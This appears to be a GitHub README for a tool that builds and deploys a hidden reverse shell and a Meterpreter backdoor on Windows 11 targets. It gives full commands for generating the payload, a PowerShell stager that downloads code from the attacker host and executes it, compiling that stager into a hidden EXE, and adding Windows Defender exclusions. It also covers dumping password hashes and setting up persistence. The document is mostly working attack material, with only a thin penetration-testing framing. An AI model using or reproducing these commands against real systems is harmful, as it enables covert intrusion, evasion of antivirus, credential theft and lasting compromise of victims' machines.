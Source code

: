 ### Get-ReverseShell README

This repository provides a tool to facilitate the creation and deployment of a sneaky reverse shell on Windows 11 targets, enhancing your penetration testing capabilities. This tool allows you to establish a connection between your Kali Linux machine and the target system, providing a powerful means for further exploration.

## Prerequisites

Before using this tool, ensure that you have the following:

1. **Kali Linux:** Make sure you have Kali Linux installed, along with `msfconsole`, `msfvenom` and any web-server.
2. **Windows 11:** You need a Windows 11 machine to create an executable file from PowerShell scripts (EXE). Wine may be an option, but it's not officially supported.
3. **Target Windows 11:** The machine you intend to target.

## Configuration Variables

These variables can be adjusted according to your environment. Use Ctrl + F to locate and modify them easily.

```variables
$lhost = "192.168.0.2"                        # IP address of your Kali host
$lport = 4444                                 # Listening port on your Kali
$lport_sneaky = 5555                          # Sneaky listening port on your Kali
$lwebpath = "/var/www/html/"                  # Path to the open website on your Kali
$lwinpath = "C:\Users\w\"                     # Working path on the Windows 11 target
$lpath = "/home/k/Desktop/"                   # Path to a local directory on your Kali
$rpath = "C:\Users\w\Desktop\"                # Working path on the attacking host
$exe_name = "reverse_shell.exe"               # Name of your attacking sneaky reverse shell executable file
$sneaky_exename = "sneaky_reverse_shell.exe"  # Name of your attacking sneaky reverse shell sneaky executable file
$sneaky_psname = "sneaky_reverse_shell.ps1"   # Name of your sneaky reverse shell sneaky PowerShell file
```

## Usage

# Kali Linux
1. Press `Ctrl + Alt + t` for open a first Kali Linux terminal and execute `sudo su` and this following commands:

```bash
cd $lpath
git clone https://github.com/gh0x0st/Get-ReverseShell
cd ./Get-ReverseShell
```
2. Write `pwsh` for open a PowerShell terminal and execute the following commands for create sneaky reverse shell script:
```pwsh
Import-Module ./get-reverseshell.ps1
get-reverseshell -Ip $lhost -Port $lport_sneaky
```

3. Write your sneaky reverse shell script in the file `$lpath$sneaky_psname` after line ">> https://github.com/gh0x0st".

4. To use Meterpreter for enhanced functionality: Write `exit` and continue in first Kali Linux terminal with the following commands:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp --format exe -o $lpath$exe_name lhost=$lhost lport=$lport
```
 - This commands creates EXE file for running meterpreter backdoor in the target:

5. Copy $exe_name and $sneaky_psname to web-server of your Kali Linux
```bash
cp $lpath$exe_name $lwebpath
cp $sneaky_psname $lwebpath
```

6. Start listening on the hidden reverse shell port
```bash
nc -nvlp 5555
```

## Meterpreter Reverse Shell
1. Open a new Kali terminal 2 for msfconsole and execute `sudo su` then `msfconsole` the following commands:
```msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost $lhost
set lport $lport
exploit
```


# Windows 11
1. Open a Windows 11 PowerShell with administrator privileges and run the following commands:

```powershell
Set-ExecutionPolicy Bypass
Install-PackageProvider -Name NuGet -MinimumVersion 2.8.5.201 -Force -Confirm:$false -ErrorAction SilentlyContinue
Install-Module -Name ps2exe -Force -Confirm:$false -ErrorAction SilentlyContinue
@"
# PowerShell script for downloading and executing the sneaky reverse shell
`$scriptUrl = "http://$lhost/$sneaky_psname"
`$scriptBytes = Invoke-WebRequest -Uri `$scriptUrl -UseBasicParsing -Method Get -MaximumRedirection 0
`$scriptContent = [System.Text.Encoding]::UTF8.GetString(`$scriptBytes.Content)
Invoke-Expression -Command `$scriptContent
"@ | Out-File -FilePath "$lwinpath$sneaky_psname" -Encoding UTF8
Invoke-ps2exe $lwinpath$sneaky_psname $lwinpath$sneaky_exename -noconsole -noerror -nooutput -sta -x64
```

2. Send and execute the sneaky backdoor on the target machine with administrator privileges.

# Return to the Kali Linux

7. Return to the Kali terminal 1 and check for a successful connection. You should see somesthing like that:

```bash
┌──(root㉿kali)-[/home/k/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.0.2] from (UNKNOWN) [192.168.0.20] 62074
                                                                                                                                                                                                                                            
PS C:\Users\w\Desktop>
```

8. If successful, you can proceed with further commands in the sneaky reverse shell for allow Meterpreter Reverse Shell and expand backdoor.
```powershell
Set-ExecutionPolicy Bypass
Add-MpPreference -ExclusionProcess "cmd.exe"
Add-MpPreference -ExclusionProcess "powershell.exe"
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147735445) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ThreatIDDefaultAction_Ids @(2147848028) -ThreatIDDefaultAction_Actions @('Allow')
Add-MpPreference -ExclusionExtension @("exe", "dll", "ps1", "vbs")
Add-MpPreference -ExclusionPath '$rpath$sneaky_exename'
Add-MpPreference -ExclusionProcess "$sneaky_exename"
Add-MpPreference -ExclusionPath '$rpath$exe_name'
Add-MpPreference -ExclusionProcess "$exe_name"
```


9. Checkout Windows Defender rules via this command
```powershell
Get-MpPreference
```
 - **Note:** If after entering the above commands you do not see any newly added rules in Windows Defender, repeat the procedure until they appear. If after some time there are still no changes, then check the launch of the hidden reverse shell with administrator privileges

10. Download $exe_name to target for meterpreter reverse shell
```powershell
Invoke-WebRequest -Uri "http://$lhost/$exe_name" -OutFile "$rpath$exe_name"
```

11. Execute $exe_name in target via  `$rpath$exe_name` or if you stay in work directory `.\$exe_name`

12. If successful, you will see a Meterpreter session opened in the Kali terminal 2 like that.
```msfconsole
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Sending stage (201798 bytes) to 192.168.0.13
[*] Meterpreter session 2 opened (192.168.0.2:4444 -> 192.168.0.13:49687) at 2024-03-10 16:16:16 +0200

meterpreter > 
```
 - Congratulations, you have a full reverse shell on your target.

## Example Commands Meterpreter

Here are some example commands you can use in the Meterpreter shell:

- `getuid`: Get the user ID of the current user.
- `getsystem`: Attempt to gain system privileges.
- `hashdump`: Retrieve hashes of all users on the target.
- `background`: Move the current session to the background.
- `help`: Display a list of available commands and their descriptions.
## 
## Example stay in target system after rebooting

exploit/windows/local/persistence_service

Feel free to explore and experiment with additional Meterpreter commands for a comprehensive assessment. Happy hacking!

